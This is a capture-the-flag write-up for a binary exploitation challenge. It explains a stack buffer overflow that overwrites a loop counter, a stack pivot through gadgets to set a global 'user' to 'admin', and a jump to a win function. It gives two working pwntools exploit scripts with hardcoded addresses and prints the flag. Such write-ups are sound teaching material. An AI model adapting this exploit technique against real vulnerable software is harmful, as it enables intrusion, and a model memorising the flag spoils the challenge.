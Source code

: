 # Description

![](../media/Screen%20Shot%202024-06-12%20at%208.42.56%20PM.png)

## analyzing the binary
decompiling the binary we can figure out what it does, it just read input from user and then print an ascii art

![](../media/Screen%20Shot%202024-06-10%20at%2010.49.03%20PM.png)

there is also a `win` function that when called print the output of `flag.txt` file but only if the global variable `user == "admin"`

![](../media/Screen%20Shot%202024-06-12%20at%208.44.18%20PM.png)


# solution
### user input
the user input is provided in the form of chunks of 8 bytes, the last iteration is when `i > 105` and that will be when `i == 112`, so we can overflow the buffer but we only have 4 bytes after the buffer to override.

when we examine the assembly code we find that `i` is at the position `RBP - 0x4` and read buffer is at `RBP - 0x70` meaning that `i` is lower in the stack so we can override it.

now that we control the loop counter, we can override the return value by calculating the offset between `buffer` and the return value and override `i` accordingly.

### calculating the offset
we can use gdb for this, first we set a break point just before the end of `vuln`, run and provide random input, then we can print the stack and evaluate the offset.


![](../media/Screen%20Shot%202024-06-12%20at%201.20.04%20AM.png)
![](../media/Screen%20Shot%202024-06-12%20at%201.13.55%20AM.png)

```
offset = 112
```

### overriding the return address
now we just need to send the payload to overflow `buffer` and override `i` with offset, and then send the new return address

```py
from pwn import *

offset = 112
with gdb.debug('./challenge', gdbscript='', api=True) as p:
    p.gdb.Breakpoint("*vuln+107", temporary=False); # pop rbp
    p.gdb.continue_nowait()

    p.recv()
    for i in range(13):
        p.send(chr(ord('a') + i).encode() * 8);
    p.send(b'AAAA' + p32(offset));
    p.send(b'B' * 8);
    p.gdb.wait()
    p.interactive()
```
![](../media/Screen%20Shot%202024-06-12%20at%208.31.59%20PM.png)

### overriding `user`

we have successfully override the return address but we still need to override `user` before jumping to `win`, in order to do that we will performe a stack pivote to allow us to override more address, first we jump to gadget `sub    rsp,0x70` in `vuln`, `RBP` will now point to the base of `main` since it was poped before `ret`, and we can now execute the `vuln` function but with `buffer` and `i` at a slightly lower position in stack

```
                   ┌────────────────────┐◄────── RSP                           ┌────────────────────┐◄────── RSP
                   │                    │                                      │                    │           
                   │                    │                                      │                    │           
                   │                    │                                      │                    │           
RBP - 0x70 ───────►│                    │                                      │                    │           
                   │                    │                                      │                    │           
                   │                    │                                      │                    │           
                   │                    │                                      │                    │           
                   │                    │                                      │                    │           
                   │                    │                   RBP - 0x70 ───────►│                    │           
                   │    vuln's stack    │                                      │    vuln's stack    │           
                   │                    │                                      │                    │           
                   │                    │       After poping RBP and           │                    │           
                   │                    │       jumping to gadget              │                    │           
                   │                    │       ───────────────────────►       │                    │           
                   │                    │                                      │                    │           
 RBP - 0x4 ───────►│                    │                                      │                    │           
                   ├────────────────────┤ ◄────── RBP                          ├────────────────────┤           
                   │                    │                                      │                    │           
                   │                    │                                      │                    │           
                   │                    │                                      │                    │           
                   │    main's stack    │                                      │    main's stack    │           
                   │                    │                                      │                    │           
                   │                    │                    RBP - 0x4 ───────►│                    │           
                   └────────────────────┘                                      └────────────────────┘◄────── RBP 
```

this will make us able to override the return address and also the address after it and also an arbitrary offset from `buffer` by overriding `i`.

the next step is to override `RBP` with `&user + 0x70` then jump to `LEA        RSI ,[RBP - 0x70]` to override `user` then jump to `win` and voila!

![](../media/Screen%20Shot%202024-06-12%20at%209.38.39%20PM.png)

```py
from pwn import *                                                                                                                 
                                     
offset = 112
offset2 = 0x00007fff9054e5d8 - 0x7fff9054e500
                                     
                                     

with remote('localhost',14124) as p: 
    time.sleep(0.1)                                                       
    p.recv()                                                               
                                                                           
    for i in range(13):                                                    
        p.send(chr(ord('a') + i).encode() * 8);               
    p.send(b'AAAA' + p32(offset));
    p.send(p64(0x004011f4)); # sub rsp, 0x70
    #p.send(b'B' * 8);
                                     
    p.recv()
    for i in range(10):                                                    
        p.send(chr(ord('a') + i).encode() * 8);
    p.send(p64(0x404070)); # &user - 0x70
    p.send(p64(0x40122e)); # call read
    p.send(b'B' * 8);
    p.send(b'AAAA' + p32(offset2 - 8));
    p.send(p64(0x00401160)); # win addr
                                     
    p.recv()                                                               
    p.send(b'admin\x00\x00\x00')
    print(p.recv())                                                        
    p.interactive()

#flag: AKASEC{y4pp1n6_15_50m371m35_u53full_9b9b3d9}

```



